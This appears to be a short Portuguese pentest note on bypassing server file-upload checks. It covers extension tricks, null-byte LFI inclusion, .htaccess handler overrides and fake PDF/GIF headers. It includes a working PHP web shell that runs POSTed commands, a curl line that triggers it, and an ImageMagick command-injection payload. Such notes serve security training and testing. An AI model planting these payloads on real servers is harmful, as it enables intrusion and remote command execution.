 Upload Bypass ocorre quando é possível enviar arquivos até o servidor, e o servidor não faz a validação correta desses arquivos, assim podendo fazer o upload de um arquivo malicioso ou uma shell, existem vários jeitos de controlar o upload de arquivos, e também várias formas de contornar esse métodos

### Formas de Burlar
#### Extensão
É possível tentar alterar a extensão para ver se o servidor aceita através de outras formas, por exemplo: file.php -> file.pHp ou file.php -> file.php.pdf ou file.php -> file.php3. Caso utilize um file.php.pdf, será preciso de LFI e null byte é possível utilizar esse arquivo no formato PHP, por exemplo: 172.16.1.231/index.php?page=uploads/file.php.pdf%00&c=id

#### .htaccess
Caso o servidor não possua um controle do arquivo .htacess, é possível enviar um arquivo com qualquer extensão ao servidor, e depois enviar um arquivo chamado ".htaccess" com uma regra para que aquela extensão seja interpretada da maneira que você precisar, por exemplo: file.sec -> (AddType application/x-httpd-php .sec) no arquivo .htaccess

#### Conteúdo do arquivo
Algumas aplicações, verificam o conteúdo de dentro do arquivo para fazer o controle do upload, por exemplo em PDFs, na primeira linha existe um cabeçalho %PDF-1.5 para identificar que o arquivo é um PDF. Para arquivos GIFs, o cabeçalho é GIF89a

## PHP File

```php
%PDF-1.5 ou GIF89a
<?php
system($_POST['c']);
?>
```

```bash
curl http://172.30.0.40/_old/upload/file.php -d "c=id"
```

## JPG File

```jpg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"; sleep " 10)'
pop graphic-context
```